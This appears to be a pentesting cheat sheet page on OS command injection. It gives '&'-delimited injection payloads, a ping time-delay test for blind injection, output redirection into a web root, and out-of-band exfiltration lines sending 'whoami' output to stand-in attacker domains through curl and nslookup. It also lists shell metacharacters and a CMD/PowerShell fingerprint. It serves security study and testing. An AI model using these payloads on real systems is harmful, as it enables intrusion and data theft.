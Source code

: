 ```yaml
---
title: "OS command injection"
weight: 18
description: "Learn about OS command injection vulnerabilities, detection methods, and exploitation techniques. Understand how to bypass restrictions and use metacharacters for injecting commands in both Windows and Unix systems."
---
```


## Command injection

```sh
& echo qwerty &
```

Placing `&` after the injected command is generally useful because it separates the injected command from whatever follows the injection point.

---

## Blind OS command

**Detection**

```sh
# 10 sec. time delay
& ping -c 10 127.0.0.1 &
```

**Exploit**

1. Redirecting output. Note: you must have write permission

    ```sh
    & whoami > /var/www/static/whoami.txt &
    curl https://website.com/whoami.txt
    ```

2. Out-of-band techniques

    ```sh
    & curl `whoami`.webserver-attacker.com & # HTTP traffic may be blocked
    & nslookup `whoami`.kgji2ohoyw.web-attacker.com &
    ```

3. Open a shell

---

## Bypass restriction

There are so many ways: [https://book.hacktricks.wiki/linux-hardening/bypass-bash-restrictions/index.html](https://book.hacktricks.wiki/linux-hardening/bypass-bash-restrictions/index.html)

---

## Metacharacters

```sh
# Windows & Unix
&
&&
|
||

# Unix
;

# Unix inline execution
`command`
$(command)
```

---

## Identify CMD or PowerShell

To determine whether commands are executed by PowerShell or CMD, use this snippet:

```cmd
(dir 2>&1 *`|echo CMD);&<# rem #>echo PowerShell
```

---

## Reverse Shell Generator

https://www.revshells.com/